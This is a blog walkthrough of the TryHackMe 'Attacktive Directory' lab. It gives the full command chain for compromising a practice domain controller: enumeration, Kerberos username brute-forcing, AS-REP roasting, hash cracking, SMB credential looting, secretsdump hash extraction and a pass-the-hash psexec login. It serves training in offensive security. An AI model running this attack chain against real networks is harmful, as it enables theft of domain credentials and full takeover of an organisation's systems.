 ```yaml
---
layout: post
title: Attacktive Directory – Try Hack Me
subtitle: Walkthrough
tags: [active,directory]
---
```


99% of Corporate networks run off Active Directory. From this machine you will have a basic understanding on how to exploit such an environment. 

Learning Objectives:

* AD Enumeration
* Kerberos
* Cracking Hashes
* Impacket

[Challenge](https://tryhackme.com/room/attacktivedirectory)

## Task 1

Initiate the VPN connection and deploy the machine

## Task 2 -> Impacket

Install Impacket, this is a collection of Python classes for working with network protocols. To learn more information about Impacket and have and overview about some of its tools you can look [here](https://www.secureauth.com/labs/open-source-tools/impacket).  
Have a look at [this](https://github.com/SecureAuthCorp/impacket.git) Github repository to learn how to install it.

## Task 3 -> Enumeration 1

We start by adding the IP address of our machine to the /etc/hosts

~~~
echo 10.10.194.183 spookysec.local >> /etc/hosts
~~~

Basic nmap scan to discover what we are working with

~~~
nmap spookysec.local
~~~

![nmap](/img/2020-04-26-AttacktiveDir/nmap.png)

Using the first scan we will use the ports discovered and run a more complete scan.

~~~
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,3389 -A -T4 spookysec.local
~~~

![nmapa](/img/2020-04-26-AttacktiveDir/nmapA.png)

From this scan we discover the Domain Name of the machine as well as the the full AD domain. 

## Task 4 -> Enumeration 2

Using enum4linux we are able to enumerate ports 139 and 445.
This tool has a quite lengthy output, therefore we will only post the important parts for the walkthrough sake.

~~~
enum4linux -A  spookysec.local
~~~

![enum](/img/2020-04-26-AttacktiveDir/enum.png)
![enum2](/img/2020-04-26-AttacktiveDir/enum2.png)

Once more, we managed retrieve information about the full AD domain name and the Domain Name of the machine plus some usernames that might be useful later on. 

We follow using the tool [Kerbrute](https://github.com/ropnop/kerbrute/), which can be installed using the  command:

~~~
go get github.com/ropnop/kerbrute
~~~

Kerbrute is a tool that performs Kerberos pre-auth bruteforcing, in this case we will be using the username bruteforce feature.

~~~
~/go/bin/kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt
~~~

![kerbrute](/img/2020-04-26-AttacktiveDir/kerbrute.png)

## Task 5 -> ASREPRoasting

From the output we are able to validate some active usernames.  
Now that we have discovered a several usernames we can use a technique called ASREPRoasting, meaning if a user does not have the Kerberos preauthentication property selected it is possible to retrieve the password hash from that user.
Impacket provides a tool called GetNPUsers.py which can query the AD and if the property above is not selective it will export their TGT.

~~~
python3 GetNPUsers.py spookysec.local/svc-admin
~~~

![tgt](/img/2020-04-26-AttacktiveDir/tgt.png)

We are able to retrieve a hash from the svc-admin account, now proceed to crack the hash using hashcat. In order to discover the mode we can have a look at the [wiki page](https://hashcat.net/wiki/doku.php?id=example_hashes).  
We have saved the previous hash in the hash.txt file.

**Note:** If you are using a VM the flag '--force' is required.

~~~
hashcat -m 18200 hash.txt passwordlist.txt --force
~~~

## Task 6 -> Enumeration 3

Having user credentials we can attempt to log into SMB and explore any shares from the domain controller.
This is possible with the tool smbclient, make sure to use the user 'svc-admin' as well as the previous cracked password.

~~~
smbclient -L spookysec.local --user svc-admin
~~~

![smb](/img/2020-04-26-AttacktiveDir/smb.png)

After exploring several shares, we found the file 'backup_credentials.txt'. 

~~~
smbclient \\\\spookysec.local\\backup --user svc-admin
~~~

![smb2](/img/2020-04-26-AttacktiveDir/smb2.png)

Looking at the content of the file we can see it is encoded with Base64. To decode it simply use the following command:

~~~
base64 -d backup_credentials.txt
~~~

## Task 7 -> Elevating Privileges

Using the backup account we can use another tool from Impacket this time called 'secretsdump.py', we will be able to get all the password hashes that this user account has access to.

~~~
python3 secretsdump.py -just-dc backup@spookysec.local
~~~

![secret](/img/2020-04-26-AttacktiveDir/secret.png)

Now we are in possession of the Administrator password hash. The next step will be performing a [Pass the Hash Attack](https://attack.stealthbits.com/pass-the-hash-attack-explained). 
We can use another tool from Impacket called 'psexec.py', for this tool you must paste the complete Administrator hash in the following command:

~~~
python3 psexec.py Administrator:@spookysec.local -hashes <Complete Hash>
~~~

![rce](/img/2020-04-26-AttacktiveDir/rce.png)

Congratulations, you now have complete access to the system, feel free to navigate to each user Desktop and get the flags.
Hope you enjoyed this guide. :)
